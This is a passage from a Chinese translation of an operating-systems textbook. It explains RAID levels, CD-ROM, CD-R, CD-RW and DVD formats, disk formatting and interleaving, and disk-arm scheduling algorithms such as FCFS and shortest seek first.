除了对软件而言看起来就像是一个磁盘以外，所有的RAID都具有同样的特性，那就是将数据分布在全部驱动器上，这样就可以并行操作。Patterson等人为这样的操作定义了几种不同的模式，它们现在被称为0级RAID到5级RAID。此外，还有少许其他的辅助层级，我们就不讨论了。“层级”这一术语多少有一些用词不当，因为此处不存在分层结构，它们只是可能的六种不同组织形式而已。
0级RAID如图5-20a所示。它将RAID模拟的虚拟单个磁盘划分成条带，每个条带具有k个扇区，其中扇区0～k-1为条带0，扇区k～2k-1为条带1，以此类推。如果k=1，则每个条带是一个扇区；如果k=2，则每个条带是两个扇区；以此类推。0级RAID结构将连续的条带以轮转方式写到全部驱动器上，图5-20a所示为具有四个磁盘驱动器的情形。
像这样将数据分布在多个驱动器上称为划分条带（striping）。例如，如果软件发出一条命令，读取一个由四个连续条带组成的数据块，并且数据块起始于条带边界，那么RAID控制器就会将该命令分解为四条单独的命令，每条命令对应四块磁盘中的一块，并且让它们并行操作。这样我们就运用了并行I/O而软件并不知道这一切。
0级RAID对于大数据量的请求工作性能最好，数据量越大性能就越好。如果请求的数据量大于驱动器数乘以条带大小，那么某些驱动器将得到多个请求，这样当它们完成了第一个请求之后，就会开始处理第二个请求。控制器的责任是分解请求，并且以正确的顺序将适当的命令提供给适当的磁盘，之后还要在内存中将结果正确地装配起来。0级RAID的性能是杰出的而实现是简单明了的。
对于习惯于每次请求一个扇区的操作系统，0级RAID工作性能最为糟糕。虽然结果会是正确的，但是却不存在并行性，因此也就没有增进性能。这一结构的另一个劣势是其可靠性潜在地比SLED还要差。如果一个RAID由四块磁盘组成，每块磁盘的平均故障间隔时间是20 000小时，那么每隔5000小时就会有一个驱动器出现故障并且所有数据将完全丢失。与之相比，平均故障间隔时间为20 000小时的SLED的可靠性要高出四倍。由于在这一设计中未引入冗余，实际上它还不是真正的RAID。
下一个选择——1级RAID如图5-20b所示，这是一个真正的RAID。它复制了所有的磁盘，所以存在四个主磁盘和四个备份磁盘。在执行一次写操作时，每个条带都被写了两次。在执行一次读操作时，则可以使用其中的任意一个副本，从而将负荷分布在更多的驱动器上。因此，写性能并不比单个驱动器好，但是读性能能够比单个驱动器高出两倍。容错性是突出的：如果一个驱动器崩溃了，只要用副本来替代就可以了。恢复也十分简单，只要安装一个新驱动器并且将整个备份驱动器复制到其上就可以了。
0级RAID和1级RAID操作的是扇区条带，与此不同，2级RAID工作在字的基础上，甚至可能是字节的基础上。想象一下将单个虚拟磁盘的每个字节分割成4位的半字节对，然后对每个半字节加入一个汉明码从而形成7位的字，其中1、2、4位为奇偶校验位。进一步想象如图5-20c所示的7个驱动器在磁盘臂位置与旋转位置方面是同步的。那么，将7位汉明编码的字写到7个驱动器上，每个驱动器写一位，这样做是可行的。
Thinking Machine公司的CM-2计算机采用了这一方案，它采用32位数据字并加入6个奇偶校验位形成一个38位的汉明字，再加上一个额外的位用于汉明字的奇偶校验，并且将每个字分布在39个磁盘驱动器上。因为在一个扇区时间里可以写32个扇区的数据，所以总的吞吐量是巨大的。此外，一个驱动器的损坏不会引起问题，因为损坏一个驱动器等同于在每个39位字的读操作中损失一位，而这是汉明码可以轻松处理的事情。
不利的一面是，这一方案要求所有驱动器的旋转必须同步，并且只有在驱动器数量很充裕的情况下才有意义（即使对于32个数据驱动器和6个奇偶驱动器而言，也存在19%的开销）。这一方案还对控制器提出许多要求，因为它必须在每个位时间里求汉明校验和。
3级RAID是2级RAID的简化版本，如图5-20d所示。其中要为每个数据字计算一个奇偶校验位并且将其写入一个奇偶驱动器中。与2级RAID一样，各个驱动器必须精确地同步，因为每个数据字分布在多个驱动器上。
乍一想，似乎单个奇偶校验位只能检测错误，而不能纠正错误。对于随机的未知错误的情形，这样的看法是正确的。然而，对于驱动器崩溃这样的情形，由于坏位的位置是已知的，所以这样做完全能够纠正1位错误。如果一个驱动器崩溃了，控制器只需假装该驱动器的所有位为0，如果一个字有奇偶错误，那么来自废弃了的驱动器上的位原来一定是1，这样就纠正了错误。尽管2级RAID和3级RAID两者都提供了非常高的数据率，但是每秒钟它们能够处理的单独的I/O请求的数目并不比单个驱动器好。
4级RAID和5级RAID再次使用条带，而不是具有奇偶校验的单个字。如图5-20e所示，4级RAID与0级RAID相类似，但是它将条带对条带的奇偶条带写到一个额外的磁盘上。例如，如果每个条带k字节长，那么所有的条带进行异或操作，就得到一个k字节长的奇偶条带。如果一个驱动器崩溃了，则损失的字节可以通过读出整个驱动器组从奇偶驱动器重新计算出来。
这一设计对一个驱动器的损失提供了保护，但是对于微小的更新其性能很差。如果一个扇区被修改了，那么就必须读取所有的驱动器以便重新计算奇偶校验，然后还必须重写奇偶校验。作为另一选择，它也可以读取旧的用户数据和旧的奇偶校验数据，并且用它们重新计算新的奇偶校验。即使是对于这样的优化，微小的更新也还是需要两次读和两次写。
结果，奇偶驱动器的负担十分沉重，它可能会成为一个瓶颈。通过以循环方式在所有驱动器上均匀地分布奇偶校验位，5级RAID消除了这一瓶颈，如图5-20f所示。然而，如果一个驱动器发生崩溃，重新构造故障驱动器的内容是一个非常复杂的过程。
3.CD-ROM
最近几年，光盘（与磁盘相对应）开始流行。光盘比传统的磁盘具有更高的记录密度。光盘最初是为记录电视节目而开发的，但是作为计算机存储设备它们可以被赋予更为重要的用途。由于它们潜在的巨大容量，光盘一直是大量研究工作的主题，并且经历了令人难以置信的快速发展。
第一代光盘是荷兰的电子集团公司飞利浦为保存电影而发明的。它们的直径为30 cm并且以LaserVision的名字上市，但是它们没有流行起来（日本除外）。
1980年，飞利浦连同索尼开发了CD（Compact Disc，压缩光盘），它很快就取代了每分钟33 1/3转的乙烯树脂唱片来记录音乐（艺术鉴赏家除外，他们仍旧喜爱乙烯树脂唱片）。CD的准确技术细节以正式国际标准（IS 10149）的形式出版，由于其封面的颜色而通俗地被称为红皮书（Red Book）。（国际标准由国际标准化组织发布，国际标准化组织是诸如ANSI、DIN等国家标准团体的国际对等机构。每一个国际标准都有一个IS号码。）将光盘以及驱动器的规范作为国际标准出版，其目的在于让来自不同音乐出版商的CD和来自不同电子设备制造商的播放器能够一同工作。所有的CD都是直径120 mm，厚度1.2 mm，中间有一个15 mm的圆孔。音频CD是第一个成功的大众市场数字存储介质。它们被设想应该能够耐用100年。请在2080年进行核对，看一看第一批CD还能不能很好地工作。
一张CD的准备分成几个步骤，包括使用高功率的红外激光在具有涂层的玻璃母盘上烧出许多直径为0.8µm的小孔。从这张母盘可以制作出铸模，铸模在激光孔所在的位置具有突起。将熔化的聚碳酸酯树脂注入这一铸模，就可以形成具有与玻璃母盘相同小孔模式的一张CD。然后将一个非常薄的反射铝层沉积在聚碳酸酯上，再加上一层保护性的漆膜，最后加上一个标签。聚碳酸酯基片中的凹陷处称为凹痕（pit），凹痕之间未被烧的区域称为槽脊（1and）。
在回放的时候，低功率的激光二极管发出波长为0.78µm的红外光，随着凹痕和槽脊的通过照射在其上。激光在聚碳酸酯一面，所以凹痕朝着激光的方向突出，就像是另一侧平坦表面上的突起一样。因为凹痕的高度是激光波长的四分之一，所以从凹痕反射回来的光线与从周围表面反射回来的光线在相位上相差半个波长。结果，两部分相消干涉，与从槽脊反射回的光线相比只返回很少的光线到播放器的光电探测器。这样播放器就可以区分凹痕和槽脊。尽管使用凹痕记录0并且使用槽脊记录1看起来非常简单，但是使用凹痕/槽脊或槽脊/凹痕的过渡来记录1而用这种过渡的缺失来记录0却更加可靠，所以采用这一方案。
凹痕和槽脊写在一个连续螺旋中，该螺旋起源于接近中间圆孔的地方并且向边缘延伸出32 mm的距离。螺旋环绕着光盘旋转了22 188圈（大约每毫米600圈），如果展开的话，它将有5.6 km长。螺旋如图5-21所示。
为了以均匀的速度播放音乐，必须让凹痕和槽脊以恒定的线速度通过。因此，当CD的读出头从CD的内部向外部移动时，CD的旋转速度必须连续地降低。在内部，旋转速度是530rpm以便达到期望的每秒120 cm的流动速度；而在外部，旋转速度必须降到200rpm以便在激光头处得到相同的线速度。恒定线速度驱动器与磁盘驱动器存在相当大的区别，后者以恒定角速度操作，与磁头当前处于什么位置无关。此外，530rpm与大多数磁盘3600～7200rpm的旋转速度相比存在相当大的距离。
1984年，飞利浦和索尼认识到使用CD存放计算机数据的潜力，所以他们出版了黄皮书（Yellow Book），定义了现在称为CD-ROM（Compact Disc-Read Only Memory，压缩光盘-只读存储器）的光盘的确切标准。为了借助在当时已经十分牢固的音频CD市场，CD-ROM在物理尺寸上与音频CD相同，在机械上和光学上也与之兼容，并且使用相同的聚碳酸酯注模机器生产。这一决策的结果是，不但需要缓慢的可变速度的电机，而且在适度的销量下CD-ROM的制造成本将很好地控制在l美元以下。
黄皮书所定义的是计算机数据的格式化。它还改进了系统的纠错能力，这是一个必要的措施，因为尽管音乐爱好者并不介意在这里或那里丢失一位，但是计算机爱好者往往对此非常挑剔。CD-ROM的基本格式是每个字节以14位的符号进行编码。正如我们在前面看到的，14位足以对一个8位的字节进行汉明编码，并且剩下2位。实际上，CD-ROM使用的是功能更为强大的编码系统 [2] 。对于读操作而言，14到8映射是通过查找表由硬件实现的。
在下一个层次上，一组42个连续符号形成一个588位的帧（frame）。每一帧拥有192个数据位（24个字节），剩余的396位用于纠错和控制。在这396位中，252位是14位符号中的纠错位，而144位包含在8位符号的有效载荷中 [3] 。到目前为止，这一方案对于音频CD和CD-ROM是完全一致的。
黄皮书所增加的是将98帧编组为一个CD-ROM扇区（CD-ROM sector），如图5-22所示。每个CD-ROM扇区以一个16字节的前导码开始，其中前12个字节为00FFFFFFFFFFFFFFFFFFFF00（十六进制），以便让播放器识别一个CD-ROM扇区的开始。接下来的3个字节包含扇区号，这是必需的，因为在具有单个数据螺旋的CD-ROM上寻道比在具有均匀同心磁道的磁盘上寻道要困难得多。为了进行寻道，驱动器中的软件要计算出一个近似的位置，将激光头移动到那里，然后开始在四周搜索一个前导码来看一看猜测的如何。前导码的最后一个字节是模式。
黄皮书定义了两种模式。模式1使用图5-22的布局，具有16字节的前导码、2048个数据字节和一个288字节的纠错码（横交叉Reed-Solomon码）。模式2将数据和ECC域合并成一个2336字节的数据域，用于不需要纠错（或者抽不出时间执行纠错）的应用，例如音频和视频。注意，为了提供优异的可靠性，在符号内部、帧内部和CD-ROM扇区内部使用了三种独立的纠错方案。单个位的错误在最低的层次上纠正，短暂的突发错误在帧的层次上纠正，任何残留的错误在扇区的层次上捕获。为这一可靠性付出的代价是花费98个588位的帧（7203字节）来容纳2048字节的有效载荷，效率只有28%。
单速CD-ROM驱动器以75扇区/秒的速度工作，提供的数据率在模式1下是153 600字节/秒，在模式2下是175 200字节/秒。双速驱动器快两倍，以此类推，直到最高的速度。因此，一个40倍速的驱动器能够以40×153 600字节/秒的速度传递数据，假设驱动器接口、总线以及操作系统都能够处理这样的数据率。一个标准的音频CD具有存放74分钟音乐的空间，如果将其用于在模式1下存放数据，提供的容量是681 984 000字节。这一数字通常被报告为650MB，这是因为1MB是220 字节（1 048 576字节），而不是1 000 000字节。
注意，即使一个32倍速的CD-ROM驱动器（数据率为4 915 200字节/秒）也无法与速度为10MB/s的快速SCSI-2磁盘驱动器相配，尽管许多CD-ROM驱动器使用了SCSI接口（也存在IDE CD-ROM驱动器）。当你意识到寻道时间通常是几百毫秒时，就会清楚CD-ROM驱动器与磁盘驱动器在性能上不属于同样的范畴，尽管它们有非常大的容量。
1986年，飞利浦以绿皮书（Green Book）再度出击，补充了图形以及在相同的扇区中保存交错的音频、视频和数据的能力，这对于多媒体CD-ROM而言是十分必要的。
CD-ROM的最后一个难题是文件系统。为了使相同的CD-ROM能够在不同的计算机上使用，有关CD-ROM文件系统的协议是必要的。为了达成这一协议，许多计算机公司的代表相聚在加利福尼亚和内华达两州边界处Tahoe湖畔的High Sierra宾馆，设计了被他们称为High Sierra的文件系统，这一文件系统后来发展成为一个国际标准（IS 9660）。该文件系统有三个层次。第一层使用最多8个字符的文件名，可选地跟随最多3个字符的扩展名（MS-DOS的文件命名约定）。文件名只能够包含大写字母、数字和下划线。目录能够嵌套最多8层深度，但是目录名不能包含扩展名。第一层要求所有文件都是连续的，这对于只能写一次的介质来说并不是一个问题。符合IS 9660标准第一层的任何CD-ROM都可以使用MS-DOS、苹果计算机、UNIX计算机或者几乎任何其他计算机读出。CD-ROM出版商十分看重这一特性，视其为重大的有利因素。
IS 9660第二层允许文件名最多有32个字符，第三层允许文件是不连续的。Rock Ridge扩展允许非常长的文件名（针对UNIX）、UID、GID和符号连接，但是不符合第一层标准的CD-ROM将不能在所有计算机上可读。
对于出版各种游戏、电影、百科全书、地图集以及参考手册，CD-ROM已经变得非常流行。大多数商业软件现在也是通过CD-ROM发行的。巨大的容量和低廉的生产成本相结合，使得CD-ROM适合无数的应用。
4.可刻录CD
起初，制造一片CD-ROM母盘（或音频CD母盘，就此事而言）所需要的设备极其昂贵。但是按照计算机产业的惯例，没有什么东西能够长久地保持高价位。到20世纪90年代中期，尺寸不比CD播放器大的CD刻录机在大多数计算机商店中已经是可以买到的常见外部设备。这些设备仍然不同于磁盘，因为一旦写入，CD-ROM就不能被擦除了。然而，它们很快就找到了适当的位置，即作为大容量硬盘的备份介质，并且还可以让个人或刚起步的公司制造他们自己的小批量的CD-ROM，或者制作母盘以便递交给高产量的商业CD复制工厂。这些驱动器被称为是CD-R（CD-Recordable，可刻录CD）。
物理上，CD-R在开始的时候是像CD-ROM一样的120mm的聚碳酸酯空盘，不同的是CD-R包含一个0.6mm宽的凹槽来引导激光进行写操作。凹槽具有3mm的正弦振幅，频率精确地为22.05 kHz，以便提供连续的反馈，这样就可以正确地监视旋转速度并且在需要的时候对其进行调整。CD-R看上去就像是常规的CD-ROM，只是CD-R顶面是金色的而不是银色的。金色源于使用真金代替铝作为反射层。银色的CD在其上具有物理的凹陷，与此不同的是，在CD-R上，必须模拟凹痕和槽脊的不同反射率。这是通过在聚碳酸酯与反射金层之间添加一层染料而实现的，如图5-23所示。使用的染料有两种：绿色的花菁和淡橘黄色的酞菁。至于哪一种染料更好化学家们可能会无休止地争论下去。这些染料与摄影技术中使用的染料相类似，这就解释了为什么柯达和富士是主要的空白CD-R制造商。
在初始状态下，染料层是透明的，能够让激光透过并且从金层反射回来。写入时，CD-R激光提升到高功率（8～16mW）。当光束遇到染料时，将其加热，从而破坏其化学结合力，这一分子结构的变化造成一个暗斑。当读回时（以0.5mW），光电探测器会识别出已经被烧过的染料处的暗斑与完好的透明区域之间的区别。这一区别被解释为凹痕与槽脊之间的差别，即使在常规的CD-ROM阅读器甚至在音频CD播放器上读回时，也是如此。
如果没有一本“有色的”书，就没有CD的新类型能够骄傲地昂起头，所以CD-R具有橘皮书（Orange Book），出版于1989年。这份文档定义了CD-R和一个新格式CD-ROM XA，它允许CD-R被逐渐增长地写入，今天几个扇区，明天几个扇区，下个月几个扇区。一次写入的一组连续的扇区称为一个CD-ROM光轨（CD-ROM track）。
CD-R的最初应用之一是柯达PhotoCD。在这一系统中，消费者将一卷已曝光的胶片和老的PhotoCD带给照片加工者，并且取回同一个PhotoCD，其中新的照片已经添加到老的照片之后。新的一批照片是通过扫描底片创建的，它们作为单独的CD-ROM光轨写在PhotoCD上。逐渐增长式写入是需要的，因为在这一产品引入的时候，CD-R空盘还过于昂贵，以至于负担不起为每个胶卷提供一张盘。
然而，逐渐增长式写入造成一个新的问题。在橘皮书之前，所有的CD-ROM在开始处有一个VTOC（Volume Table of Contents，卷目录）。这一方法对于逐渐增长式（也就是多光轨）写入是行不通的。橘皮书的解决方案是给每个CD-ROM光轨提供自己的VTOC，在VTOC中列出的文件可以包含某些或者所有来自先前光轨中的文件。当CD-R被插入到驱动器之后，操作系统从头到尾搜索所有的CD-ROM光轨以定位最近的VTOC，它提供了光盘的当前状态。通过在当前VTOC包含来自先前光轨中的某些而不是全部文件，可能会引起错觉，即文件已经被删除了。光轨可以被分组成段（session），这样就引出了多段（multisession）CD-ROM。标准的音频CD播放器不能处理多段CD，因为它们要求在开始处有一个VTOC。可是，某些计算机应用程序可以处理它们。
CD-R使得个人和公司轻松地复制CD-ROM（和音频CD）成为可能，只是通常会侵犯出版商的版权。人们设计了几种方案使这种盗版行为更加困难，并且使除了出版商的软件以外的任何软件都难于用来读取CD-ROM。方案之一是在CD-ROM上将所有文件的长度记录为几吉字节，从而挫败任何使用标准复制软件将文件复制到硬盘上的企图。实际的文件长度嵌入在出版商的软件中，或者隐藏（可能是加密的）在CD-ROM上意想不到的地方。另一种方案是在挑选出来的扇区中故意使用错误的ECC，期望CD复制软件将会“修正”这些错误，而应用程序软件则核对ECC本身，如果是正确的就拒绝工作。使用光轨间非标准的间隙和其他物理“瑕疵”也是可能的。
5.可重写CD
尽管人们习惯于使用其他一次性写的介质，例如纸张和摄影胶片，但是却存在着对可重写CD-ROM的需求。目前可用的一个技术是CD-RW（CD-ReWritable，可重写CD），它使用与CD-ROM相同尺寸的介质。然而，CD-RW使用银、铟、锑和碲合金作为记录层，以取代花菁和酞菁染料。这一合金具有两个稳定的状态：结晶态和非结晶态，两种状态具有不同的反射率。
CD-RW驱动器使用具有三种不同功率的激光。在高功率下，激光将合金融化，将其从高反射率的结晶态转化为低反射率的非结晶态，代表一个凹痕。在中功率下，激光将合金融化并重构其自然结晶状态以便再次成为一个槽脊。在低功率下，材料的状态被感知（用于读取），但是不发生状态的转化。
CD-RW没有取代CD-R的原因是CD-RW空白盘比CD-R空白盘要昂贵得多。此外，对于涉及对硬盘进行备份的应用程序来说，实际情况就是一次性写入，CD-R不会被意外地擦除是一大好事。
6.DVD
基本CD/CD-ROM格式自1980年以来经受了考验。从那时起，技术在不断改进，所以更高容量的光盘现在在经济上是可行的，并且存在着对它们的巨大需求。好莱坞热切地希望用数字光盘来取代模拟录像磁带，因为光盘具有更高的容量，更低廉的制造成本，更长的使用时间，占用音像商店更少的货架空间，并且不必倒带。消费性电子公司正期待着一种新型的一鸣惊人的产品，而许多计算机公司则希望为他们的软件增添多媒体特性。
这三个极其富有并且势力强大的产业在技术与需求方面的结合引出了DVD，最初DVD是Digital Video Disk（数字视盘）的首字母缩写，但是现在官方的名称是Digital Versatile Disk（数字通用光盘）。DVD采用与CD同样的总体设计，使用120 mm的注模聚碳酸酯盘片，包含凹痕和槽脊，它们由激光二极管照明并且由光电探测器读取。新特性包括使用了：
1)更小的凹痕（0.4µm，CD是0.8µm）。
2)更密的螺旋（轨迹间距0.74µm，CD是1.6µm）。
3)红色激光（波长0.65µm，CD是0.78µm）。
综合起来，这些改进将容量提高了7倍，达到4.7GB。一个1倍速的DVD驱动器以1.4 MB/s的速率运转（CD是150 KB/s）。但是，切换到红色激光意味着DVD播放器需要第二个激光器或者价格高昂的光学转换器才能够读取现有的CD和CD-ROM。随着激光器价格的下降，现在大多数驱动器都有两种激光器，所以它们能够读取两种类型的介质。
是不是4.7GB就足够了？也许是。采用MPEG-2压缩（在IS 13346中标准化），一块4.7GB的DVD盘能够保存133分钟高分辨率（720×480）的全屏幕、全运动视频，以及最多8种语言的音轨和最多32种语言的字幕。好莱坞曾经制作的全部电影中大约92%在133分钟以下。然而，某些应用（例如多媒体游戏或者参考手册）可能需要更多的空间，并且好莱坞希望将多部电影放在同一张盘上，为此定义了四种格式：
1)单面单层（4.7GB）。
2)单面双层（8.5GB）。
3)双面单层（9.4GB）。
4)双面双层（17GB）。
为什么要如此多种格式？一句话：政治利益。飞利浦和索尼对于高容量的版本希望采用单面双层盘，而东芝和时代华纳则希望采用双面单层盘。飞利浦和索尼认为人们不会愿意将盘片翻面，而东芝和时代华纳则不相信将两层放在一面能够工作。妥协是支持全部组合，但是市场将决定哪些格式会生存下来。
双层技术在底部具有一个反射层，在上面加上一个半反射层。激光从一层还是从另一层反射回来取决于激光在何处汇聚。下面一层需要稍微大一些的凹痕和槽脊，以便可靠地读出，所以其容量比上面一层稍微小一些。
双面盘是通过采用两片0.6 mm的单面盘并且将它们背对背地粘合在一起做成的。为了使所有版本的厚度相同，单面盘包含一个0.6 mm的盘片，粘合在一片空白的基底上（或者也许在将来是粘合在一个包含133分钟广告的盘上，期望人们会好奇其中包含什么）。双面双层盘的结构如图5-24所示。
DVD是由10家消费性电子公司的联盟在主要的好莱坞制片厂的紧密协作下设计的，其中7家是日本公司，而其中一些好莱坞制片厂也是由联盟中的日本电子公司所拥有。计算机与电信产业未被邀请参加这一野餐会，导致的结果是注意力集中在将DVD用于电影租赁与营业性放映上。例如，标准特性包括实时跳过色情场景（使父母得以将一部等级为NCl7 [4] 的影片转变成对儿童安全的影片），包含六声道声音，并且支持摇摄及扫描。最后一个特性是允许动态地决定如何将电影（其宽高比为3:2）的左和右边缘修剪掉以便适合当前的电视机（其宽高比为4:3）。
另一个计算机业大概不会考虑的项目是在供应给美国的光盘与供应给欧洲的光盘以及适用于其他大陆的其他标准之间故意不兼容。因为新影片总是首先在美国发行，然后当视频产品在美国上市的时候再输出到欧洲，所以好莱坞需要这一“特性”。这一主意可以确保欧洲的音像商店不能过早地在美国买到视频产品，因而减少新电影在欧洲的票房收入。如果计算机产业是由好莱坞来运作的，那么就会在美国只能使用3.5英寸的软盘而在欧洲只能使用9厘米的软盘。
发明单面/双面和单层/双层DVD的那些人再一次陷入混战。由于产业界参与者政治上的争论，下一代DVD仍然缺乏单一的标准。一种新的设备是Blu-ray（蓝光光盘），它使用0.405(m（蓝色）激光将25 GB压入单层盘中，或者将50GB压入双层盘中。另一种设备是HD DVD [5] ，它使用相同的蓝色激光，但是容量只有15 GB（单层）或者30 GB（双层）。这种格式之战将电影制片厂、计算机制造商和软件公司割裂开来。缺乏标准的结果是，这一代DVD推广得非常慢，因为消费者在等待着尘埃落定，看哪一个格式胜出。产业界这些愚蠢的行为让人想起George Santayana [6] 的名言：“不能以史为鉴的人注定要重蹈覆辙”。
硬盘由一叠铝的、合金的或玻璃的盘片组成，直径为5.25英寸或3.5英寸（在笔记本电脑上甚至更小）。在每个盘片上沉积着薄薄的可磁化的金属氧化物。在制造出来之后，磁盘上不存在任何信息。
在磁盘能够使用之前，每个盘片必须经受由软件完成的低级格式化（low-level format）。该格式包含一系列同心的磁道，每个磁道包含若干数目的扇区，扇区间存在短的间隙。一个扇区的格式如图5-25所示。
前导码以一定的位模式开始，位模式使硬件得以识别扇区的开始。前导码还包含柱面与扇区号以及某些其他信息。数据部分的大小是由低级格式化程序决定的，大多数磁盘使用512字节的扇区。ECC域包含冗余信息，可以用来恢复读错误。该域的大小和内容随生产商的不同而不同，它取决于设计者为了更高的可靠性愿意放弃多少磁盘空间以及控制器能够处理的ECC编码有多复杂。16字节的ECC域并不是罕见的。此外，所有硬盘都分配有某些数目的备用扇区，用来取代具有制造瑕疵的扇区。
在设置低级格式时，每个磁道上第0扇区的位置与前一个磁道存在偏移。这一偏移称为柱面斜进（cylinder skew），这样做是为了改进性能，想法是让磁盘在一次连续的操作中读取多个磁道而不丢失数据。观察图5-19a就可以明白问题的本质。假设一个读请求需要最内侧磁道上从第0扇区开始的18个扇区，磁盘旋转一周可以读取前16个扇区，但是为了得到第17个扇区，则需要一次寻道操作以便磁头向外移动一个磁道。到磁头移动了一个磁道时，第0扇区已经转过了磁头，所以需要旋转一整周才能等到它再次经过磁头。通过图5-26所示的将扇区偏移即可消除这一问题。
柱面斜进量取决于驱动器的几何规格。例如，一个10 000rpm的驱动器每6ms旋转一周，如果一个磁道包含300个扇区，那么每20µs就有一个新扇区在磁头下通过。如果磁道到磁道的寻道时间是800µs，那么在寻道期间将有40个扇区通过，所以柱面斜进应该是40个扇区而不是图5-26中的三个扇区。值得一提的是，像柱面斜进一样也存在着磁头斜进（head skew），但是磁头斜进不是非常大。
低级格式化的结果是磁盘容量减少，减少的量取决于前导码、扇区间间隙和ECC的大小以及保留的备用扇区的数目。通常格式化的容量比未格式化的容量低20%。备用扇区不计入格式化的容量，所以一种给定类型的所有磁盘在出厂时具有完全相同的容量，与它们实际具有多少坏扇区无关（如果坏扇区的数目超出了备用扇区的数目，则该驱动器是不合格的，不会出厂）。
关于磁盘容量存在着相当大的混淆，这是因为某些制造商广告宣传的是未格式化的容量，从而使他们的驱动器看起来比实际的容量要大。例如，考虑一个未格式化容量为200×109 字节的驱动器，它或许是作为200GB的磁盘销售的。然而，格式化之后，也许只有170×109 字节可用于存放数据。使这一混淆进一步加剧的是操作系统可能将这一容量报告为158GB，而不是170GB，因为软件把lGB看作是230 （1 073 741 824）字节，而不是109 （1 000 000 000）字节。
在数据通信世界里，lGbps意味着1 000 000 000位/秒，因为前缀G（吉）确实表示109 （毕竟一千米是1000米，而不是1024米），所以使事情更加糟糕。只有在关于内存和磁盘的大小的情况下，kilo（千）、mega（兆）、giga（吉）和tera（太）才分别表示210 、220 、230 和240 。
格式化还对性能产生影响。如果一个10 000RPM的磁盘每个磁道有300个扇区，每个扇区512字节，那么用6ms可以读出一个磁道上的153 600字节，使数据率为25 600 000字节/秒或24.4 MB/s。不论引入什么种类的接口，都不可能比这个速度更快，即便是80 MB/s或160 MB/s的SCSI接口也不行。
实际上，以这一速率连续地读磁盘要求控制器中有一个大容量的缓冲区。例如，考虑一个控制器，它具有一个扇区的缓冲区，该控制器接到一条命令要读两个连续的扇区。当从磁盘上读出第一个扇区并做了ECC计算之后，数据必须传送到主存中。就在传送正在进行时，下一个扇区将从磁头下通过。当完成了向主存的复制时，控制器将不得不等待几乎一整周的旋转时间才能等到第二个扇区再次回来。
通过在格式化磁盘时以交错方式对扇区进行编号可以消除这一问题。在图5-27a中，我们看到的是通常的编号模式（此处忽略柱面斜进）。在图5-27b中，我们看到的是单交错（single interleaving），它可以在连续的扇区之间给控制器以喘息的空间以便将缓冲区复制到主存。
如果复制过程非常慢，可能需要如图5-27c中的双交错（double interleaving）。如果控制器拥有的缓冲区只有一个扇区，那么从缓冲区到主存的复制无论是由控制器完成还是由主CPU或着DMA芯片完成都无关紧要，都要花费某些时间。为了避免需要交错，控制器应该能够对整个磁道进行缓存，许多现代控制器都能够这样做。
在低级格式化完成之后，要对磁盘进行分区。在逻辑上，每个分区就像是一个独立的磁盘。分区对于多个操作系统共存是必需的。此外，在某些情况下，分区可以用来进行交换。在Pentium和大多数其他计算机上，0扇区包含主引导记录（master boot record），它包含某些引导代码和末尾的分区表。分区表给出了每个分区的起始扇区和大小。在Pentium上，分区表具有四个分区的空间。如果这四个分区都用于Windows，那么它们将被称为C:、D:、E:和F:，并且作为单独的驱动器对待。如果它们中有三个用于Windows一个用于UNIX，那么Windows会将它的分区称为C:、D:和E:，然后第一个CD-ROM是F:。为了能够从硬盘引导，在分区表中必须有一个分区被标记为活动的。
在准备一块磁盘以便于使用的最后一步是对每一个分区分别执行一次高级格式化（high-level format）。这一操作要设置一个引导块、空闲存储管理（空闲列表或位图）、根目录和一个空文件系统。这一操作还要将一个代码设置在分区表项中，以表明在分区中使用的是哪个文件系统，因为许多操作系统支持多个兼容的文件系统（由于历史原因）。这时，系统就可以引导了。
本小节我们将一般地讨论与磁盘驱动程序有关的几个问题。首先，考虑读或者写一个磁盘块需要多长时间。这个时间由以下三个因素决定：
1)寻道时间（将磁盘臂移动到适当的柱面上所需的时间）。
2)旋转延迟（等待适当扇区旋转到磁头下所需的时间）。
3)实际数据传输时间。
对大多数磁盘而言，寻道时间与另外两个时间相比占主导地位，所以减少平均寻道时间可以充分地改善系统性能。
如果磁盘驱动程序每次接收一个请求并按照接收顺序完成请求，即先来先服务（First-Come，First-Served，FCFS），则很难优化寻道时间。然而，当磁盘负载很重时，可以采用其他策略。很有可能当磁盘臂为一个请求寻道时，其他进程会产生其他磁盘请求。许多磁盘驱动程序都维护着一张表，该表按柱面号索引，每一柱面的未完成的请求组成一个链表，链表头存放在表的相应表目中。
给定这种数据结构，我们可以改进先来先服务调度算法。为了说明如何实现，考虑一个具有40个柱面的假想的磁盘。假设读柱面1l上一个数据块的请求到达，当对柱面11的寻道正在进行时，又按顺序到达了对柱面l、36、16、34、9和12的请求，则让它们进入未完成的请求表，每一个柱面对应一个单独的链表。图5-28显示了这些请求。
当前请求（请求柱面11）结束后，磁盘驱动程序要选择下一次处理哪一个请求。若使用FCFS算法，则首先选择柱面1，然后是36，以此类推。这个算法要求磁盘臂分别移动10、35、20、18、25和3个柱面，总共需要移动111个柱面。
另一种方法是下一次总是处理与磁头距离最近的请求以使寻道时间最小化。对于图5-28中给出的请求，选择请求的顺序如图5-28中下方的折线所示，依次为12、9、16、1、34和36。按照这个顺序，磁盘臂分别需要移动1、3、7、15、33和2个柱面，总共需要移动61个柱面。这个算法即最短寻道优先（Shortest Seek First，SSF），与FCFS算法相比，该算法的磁盘臂移动几乎减少了一半。
但是，SSF算法存在一个问题。假设当图5-28所示的请求正在处理时，不断地有其他请求到达。例如，磁盘臂移到柱面16以后，到达一个对柱面8的新请求，那么它的优先级将比柱面1要高。如果接着又到达了一个对柱面13的请求，磁盘臂将移到柱面13而不是柱面1。如果磁盘负载很重，那么大部分时间磁盘臂将停留在磁盘的中部区域，而两端极端区域的请求将不得不等待，直到负载中的统计波动使得中部区域没有请求为止。远离中部区域的请求得到的服务很差。因此获得最小响应时间的目标和公平性之间存在着冲突。
高层建筑也要进行这种权衡处理，高层建筑中的电梯调度问题和磁盘臂调度很相似。电梯请求不断地到来，随机地要求电梯到各个楼层（柱面）。控制电梯的计算机能够很容易地跟踪顾客按下请求按钮的顺序，并使用FCFS或者SSF为他们提供服务。
